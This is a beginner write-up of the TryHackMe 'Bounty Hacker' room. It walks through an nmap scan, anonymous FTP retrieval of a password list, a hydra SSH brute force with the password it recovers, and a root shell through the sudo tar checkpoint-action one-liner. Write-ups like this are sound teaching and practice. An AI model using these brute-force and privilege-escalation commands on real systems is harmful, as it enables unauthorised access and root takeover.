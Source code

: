<p align="center">
  THM : Bounty Hacker<br>
  Difficulty : Easy<br>
  Room link : https://tryhackme.com/room/cowboyhacker<br>
  <img src="https://i.imgur.com/VnkgDn8.jpg">
</p>

## Summary

- [Nmap scan](#nmap-scan)
- [FTP enumeration](#ftp-enumeration)
- [SSH bruteforce](#ssh-bruteforce)
- [Privilege escalation](#privilege-escalation)
- [Conclusion](#conclusion)

## Nmap scan

Let's run an agressive [nmap](https://nmap.org/) scan against the target :  
```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-21 17:51 CEST
Nmap scan report for 10.10.198.38
Host is up (0.063s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.14.32.60
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.93 seconds
```

- FTP port is open and anonymous login is allowed (port 21)
- SSH port is open (port 22)
- A webserver is running on the target (port 80)

## FTP enumeration

Let's login to the FTP service as `anonymous` and see what files we can find :  
```
attacker@AttackBox:~/Documents/THM/CTF/Bounty_Hacker$ ftp 10.10.198.38
Connected to 10.10.198.38.
220 (vsFTPd 3.0.3)
Name (10.10.198.38:attacker): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

Let's get those files on our attacker machine and see what's inside :  
```
attacker@AttackBox:~/Documents/THM/CTF/Bounty_Hacker$ cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
attacker@AttackBox:~/Documents/THM/CTF/Bounty_Hacker$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

We have a possible username `lin`. The file `locks.txt` seems to be a password list.

**Question : Who wrote the task list ?**  
**Answer : lin**  

## SSH bruteforce

Since we have a username `lin` and a password list, we can try to brute force some services on the target. Let's try with `SSH` first using [hydra](https://github.com/vanhauser-thc/thc-hydra) :  
```
attacker@AttackBox:~/Documents/THM/CTF/Bounty_Hacker$ hydra -l lin -P locks.txt 10.10.198.38 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-10-21 18:04:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.198.38:22/
[22][ssh] host: 10.10.198.38   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-10-21 18:04:56
```

We successfully brute forced `lin`'s SSH password !

**Question : What service can you bruteforce with the text file found ?**  
**Answer : SSH**  

**Question : What is the users password ?**  
**Answer : RedDr4gonSynd1cat3**  

Now let's login to SSH using the credentials we found :  
```
attacker@AttackBox:~/Documents/THM/CTF/Bounty_Hacker$ ssh lin@10.10.198.38
The authenticity of host '10.10.198.38 (10.10.198.38)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.198.38' (ECDSA) to the list of known hosts.
lin@10.10.198.38's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$
```

Let's get the user flag :  
```
lin@bountyhacker:~/Desktop$ ls -la
total 12
drwxr-xr-x  2 lin lin 4096 Jun  7  2020 .
drwxr-xr-x 19 lin lin 4096 Jun  7  2020 ..
-rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{*******************}
```

## Privilege escalation

It's time to escalate our privileges. Let's take a look at our sudo rights :  
```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

We can run tar as root. We can search for `tar` on [GTFOBins](https://gtfobins.github.io/) :  
![](https://i.imgur.com/AS8xbPU.jpg)  

Let's use this exploit and get a root shell :  
```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
```

We are root ! Let's get the root flag :  
```
# cd /root
# ls -la
total 40
drwx------  5 root root 4096 Jun  7  2020 .
drwxr-xr-x 24 root root 4096 Jun  6  2020 ..
-rw-------  1 root root 2694 Jun  7  2020 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Feb 26  2019 .cache
drwxr-xr-x  2 root root 4096 Jun  7  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   19 Jun  7  2020 root.txt
-rw-r--r--  1 root root   66 Jun  7  2020 .selected_editor
drwx------  2 root root 4096 Jun  7  2020 .ssh
# cat root.txt
THM{**************}
#
```

## Conclusion

This CTF was very easy and simple. I think it is a very good CTF for very beginners.
We practiced : 
- Ports/Services enumeration using [nmap](https://nmap.org/)
- FTP enumeration using `anonymous` login
- SSH bruteforce using [hydra](https://github.com/vanhauser-thc/thc-hydra)
- Basic linux enumeration
- Basic privilege escalation

Thanks for this room and thanks for reading my write ups !
